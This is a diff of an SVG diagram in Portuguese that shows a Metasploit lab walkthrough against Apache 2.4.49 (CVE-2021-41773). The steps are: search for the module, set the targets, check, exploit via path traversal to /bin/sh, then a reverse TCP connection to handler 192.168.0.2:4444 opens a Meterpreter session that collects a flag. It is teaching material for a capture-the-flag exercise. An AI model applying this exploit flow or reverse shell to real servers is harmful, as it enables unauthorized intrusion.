

- <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 900 500" role="img" aria-labelledby="t d">
+ <svg xmlns="http://www.w3.org/2000/svg" viewBox="0 0 960 660" width="960" height="660" role="img" aria-labelledby="t d">
  <style>
-     text { font-family: ui-monospace, "DejaVu Sans Mono", Menlo, Consolas, monospace; fill: #e6ede8; }
-     .t { font-size: 16px; font-weight: 700; }
-     .h { font-size: 13.5px; font-weight: 700; }
-     .step { font-size: 12px; font-weight: 700; }
-     .sub { font-size: 10.5px; fill: #9fb0a6; }
-     .mono { font-size: 11px; fill: #5cc8d8; }
-     .lab { font-size: 11px; }
-     .cur { fill: #5cc8d8; }
-     .box { fill: #16201b; stroke: #2c3a33; stroke-width: 1.5; }
-     .boxk { fill: #16201b; stroke: #5cc8d8; stroke-width: 2.5; }
-     .boxg { fill: #10231a; stroke: #5ee08a; stroke-width: 2.5; }
-     .life { stroke: #3a4a42; stroke-width: 1.5; stroke-dasharray: 4 4; }
-     .flow { stroke: #4a5a52; stroke-width: 2; fill: none; marker-end: url(#a); }
-     .rev { stroke: #5cc8d8; stroke-width: 3; fill: none; marker-end: url(#ac); }
+     text { font-family: 'SF Mono','Fira Code','Cascadia Code','DejaVu Sans Mono','Courier New',monospace; fill: #e2e8f0; }
+     .title { font-size: 19px; font-weight: 700; }
+     .key   { font-size: 12.5px; fill: #fdba74; }
+     .actor { font-size: 13.5px; font-weight: 700; }
+     .sub   { font-size: 10.5px; fill: #94a3b8; }
+     .mono  { font-size: 11px; fill: #7dd3fc; }
+     .num   { font-size: 12px; font-weight: 700; }
+     .msg   { font-size: 11.5px; }
+     .kali  { fill: #0b1f33; stroke: #38bdf8; stroke-width: 1.8; }
+     .target{ fill: #0f172a; stroke: #64748b; stroke-width: 1.6; }
+     .self  { fill: #0b1f33; stroke: #38bdf8; stroke-width: 1.4; }
+     .ret   { fill: #0f172a; stroke: #334155; stroke-width: 1.2; }
+     .sess  { fill: #052e1b; stroke: #34d399; stroke-width: 2.2; }
+     .life  { stroke: #3a4a5a; stroke-width: 1.4; stroke-dasharray: 5 5; }
+     .a-blue{ stroke: #38bdf8; stroke-width: 2; fill: none; marker-end: url(#m-blue); }
+     .a-ret { stroke: #64748b; stroke-width: 1.6; fill: none; stroke-dasharray: 6 4; marker-end: url(#m-mut); }
+     .a-rev { stroke: #f97316; stroke-width: 3.8; fill: none; marker-end: url(#m-org); }
  </style>
  <defs>
-     <marker id="a" markerWidth="9" markerHeight="9" refX="8" refY="4.5" orient="auto">
-       <path d="M0,0 L9,4.5 L0,9 z" fill="#4a5a52" />
+     <linearGradient id="bg" x1="0%" y1="0%" x2="100%" y2="100%">
+       <stop offset="0%" stop-color="#0f0f1a" />
+       <stop offset="100%" stop-color="#1a1a2e" />
+     </linearGradient>
+     <marker id="m-blue" markerWidth="9" markerHeight="9" refX="7.5" refY="4.5" orient="auto">
+       <path d="M0,0 L9,4.5 L0,9 z" fill="#38bdf8" />
    </marker>
-     <marker id="ac" markerWidth="10" markerHeight="10" refX="8" refY="5" orient="auto">
-       <path d="M0,0 L10,5 L0,10 z" fill="#5cc8d8" />
+     <marker id="m-mut" markerWidth="9" markerHeight="9" refX="7.5" refY="4.5" orient="auto">
+       <path d="M0,0 L9,4.5 L0,9 z" fill="#64748b" />
    </marker>
+     <marker id="m-org" markerWidth="11" markerHeight="11" refX="8.5" refY="5.5" orient="auto">
+       <path d="M0,0 L11,5.5 L0,11 z" fill="#f97316" />
+     </marker>
+     <filter id="g-org" x="-40%" y="-40%" width="180%" height="180%">
+       <feGaussianBlur stdDeviation="3.5" result="b" />
+       <feMerge>
+         <feMergeNode in="b" />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
+     </filter>
+     <filter id="g-grn" x="-40%" y="-40%" width="180%" height="180%">
+       <feGaussianBlur stdDeviation="3" result="b" />
+       <feMerge>
+         <feMergeNode in="b" />
+         <feMergeNode in="SourceGraphic" />
+       </feMerge>
+     </filter>
  </defs>
-   <rect width="900" height="500" fill="#121815" />
-   <text class="t" x="30" y="34">O fluxo do Metasploit: do <tspan class="cur">search</tspan> à sessão reversa</text>
-   <rect class="boxk" x="70" y="58" width="220" height="56" rx="8" />
-   <text class="step cur" x="180" y="82" text-anchor="middle">Kali · msfconsole</text>
-   <text class="sub" x="180" y="100" text-anchor="middle">LHOST 192.168.0.2 (lab_net)</text>
-   <rect class="box" x="610" y="58" width="220" height="56" rx="8" />
-   <text class="step" x="720" y="82" text-anchor="middle">Apache 2.4.49</text>
-   <text class="sub" x="720" y="100" text-anchor="middle">alvo vulhub (CVE-2021-41773)</text>
-   <line class="life" x1="180" y1="114" x2="180" y2="400" />
-   <line class="life" x1="720" y1="114" x2="720" y2="400" />
-   <rect class="box" x="70" y="132" width="220" height="56" rx="7" />
-   <text class="mono" x="82" y="154">search cve:2021-41773</text>
-   <text class="sub" x="82" y="172">acha o módulo no cache local</text>
-   <text class="mono" x="82" y="184" fill="#9fb0a6">use …/apache_normalize_path_rce</text>
-   <rect class="box" x="70" y="198" width="220" height="40" rx="7" />
-   <text class="mono" x="82" y="216">set RHOSTS vulhub · RPORT 80</text>
-   <text class="mono" x="82" y="231" fill="#9fb0a6">set LHOST 192.168.0.2</text>
-   <path class="flow" d="M182,260 L718,260" />
-   <text class="lab" x="450" y="253" text-anchor="middle">check</text>
-   <path class="flow" d="M718,284 L182,284" />
-   <text class="lab cur" x="450" y="300" text-anchor="middle">[+] The target is vulnerable (mod_cgi enabled)</text>
-   <path class="flow" d="M182,326 L718,326" />
-   <text class="lab" x="450" y="319" text-anchor="middle">exploit → payload de traversal → /bin/sh</text>
-   <rect class="box" x="610" y="300" width="220" height="48" rx="7" />
-   <text class="sub" x="720" y="320" text-anchor="middle">o alvo executa um programa</text>
-   <text class="sub" x="720" y="336" text-anchor="middle">como o usuário daemon</text>
-   <path class="rev" d="M718,374 L182,374" />
-   <text class="lab cur" x="450" y="367" text-anchor="middle">conexão reversa (reverse TCP) → handler 192.168.0.2:4444</text>
-   <rect class="boxg" x="70" y="416" width="760" height="70" rx="8" />
-   <text class="step" x="90" y="440" fill="#5ee08a">Meterpreter session 1 opened — daemon @ vulhub</text>
-   <text class="mono" x="90" y="462">getuid → daemon    uname -m → x86_64    sha256 /usr/local/apache2/bin/httpd → 3787557f9f5f…</text>
-   <text class="sub" x="90" y="478">a arquitetura confirmada e a impressão digital do serviço compõem a flag</text>
+   <rect width="960" height="660" fill="url(#bg)" />
+   <text class="title" x="30" y="40">O fluxo do Metasploit, passo a passo</text>
+   <rect x="30" y="54" width="900" height="36" rx="6" fill="#1c1206" stroke="#b45309" stroke-width="1.2" />
+   <rect x="30" y="54" width="5" height="36" fill="#f97316" />
+   <text class="key" x="46" y="77">Ideia-chave: você configura e dispara do Kali, mas é a <tspan fill="#fdba74" font-weight="700">conexão reversa</tspan> (o alvo ligando de volta) que abre a sessão.</text>
+   <rect class="kali" x="60" y="106" width="260" height="58" rx="8" />
+   <text class="actor" x="190" y="132" text-anchor="middle" fill="#7dd3fc">Kali · msfconsole</text>
+   <text class="sub" x="190" y="150" text-anchor="middle">LHOST 192.168.0.2 (você / atacante)</text>
+   <rect class="target" x="640" y="106" width="280" height="58" rx="8" />
+   <text class="actor" x="780" y="132" text-anchor="middle">Apache 2.4.49</text>
+   <text class="sub" x="780" y="150" text-anchor="middle">alvo do lab · CVE-2021-41773</text>
+   <line class="life" x1="190" y1="164" x2="190" y2="520" />
+   <line class="life" x1="780" y1="164" x2="780" y2="520" />
+   <rect class="self" x="60" y="182" width="300" height="52" rx="7" />
+   <text class="num" x="74" y="202" fill="#38bdf8">1</text>
+   <text class="mono" x="92" y="202">search cve:2021-41773  ·  use</text>
+   <text class="sub" x="92" y="222">acha o módulo no cache local e o seleciona</text>
+   <rect class="self" x="60" y="246" width="300" height="52" rx="7" />
+   <text class="num" x="74" y="266" fill="#38bdf8">2</text>
+   <text class="mono" x="92" y="266">set RHOSTS alvo · RPORT 80 · LHOST</text>
+   <text class="sub" x="92" y="286">configura o datastore (para onde atacar e voltar)</text>
+   <path class="a-blue" d="M192,326 L778,326" />
+   <text class="num" x="200" y="318" fill="#38bdf8">3</text>
+   <text class="msg" x="486" y="318" text-anchor="middle">check — confere se o alvo é vulnerável</text>
+   <path class="a-ret" d="M778,352 L192,352" />
+   <text class="msg" x="486" y="370" text-anchor="middle" fill="#94a3b8">[+] The target is vulnerable</text>
+   <path class="a-blue" d="M192,404 L778,404" />
+   <text class="num" x="200" y="396" fill="#38bdf8">4</text>
+   <text class="msg" x="470" y="396" text-anchor="middle">exploit — envia o payload (path traversal → /bin/sh)</text>
+   <rect class="target" x="640" y="414" width="280" height="44" rx="7" />
+   <text class="sub" x="780" y="432" text-anchor="middle">o alvo executa um programa</text>
+   <text class="sub" x="780" y="448" text-anchor="middle">como o usuário daemon</text>
+   <text class="num" x="205" y="481" fill="#fdba74">5</text>
+   <text class="msg" x="492" y="481" text-anchor="middle" fill="#fdba74" font-weight="700">conexão reversa → handler 192.168.0.2:4444 — é ISTO que abre a sessão</text>
+   <path class="a-rev" d="M778,502 L190,502" />
+   <rect class="sess" x="60" y="538" width="860" height="88" rx="8" filter="url(#g-grn)" />
+   <text class="actor" x="80" y="564" fill="#6ee7b7">Sessão Meterpreter aberta — você está dentro, como daemon</text>
+   <text class="mono" x="80" y="588">getuid → daemon      uname -m → x86_64      sha256 /usr/local/apache2/bin/httpd → 3787557f9f5f…</text>
+   <text class="sub" x="80" y="608">A arquitetura (x86_64) e a impressão digital do serviço (início do hash) montam a flag  FLAG{arch-hash}.</text>
+   <text class="sub" x="30" y="650" font-weight="700" fill="#cbd5e1">Cores:</text>
+   <line x1="88" y1="646" x2="118" y2="646" class="a-blue" />
+   <text class="sub" x="124" y="650">sai do Kali para o alvo</text>
+   <line x1="318" y1="646" x2="350" y2="646" class="a-rev" />
+   <text class="sub" x="358" y="650">a conexão reversa (abre a sessão)</text>
+   <line x1="640" y1="646" x2="670" y2="646" stroke="#34d399" stroke-width="2.4" />
+   <text class="sub" x="676" y="650">a sessão e a coleta da flag</text>
</svg>
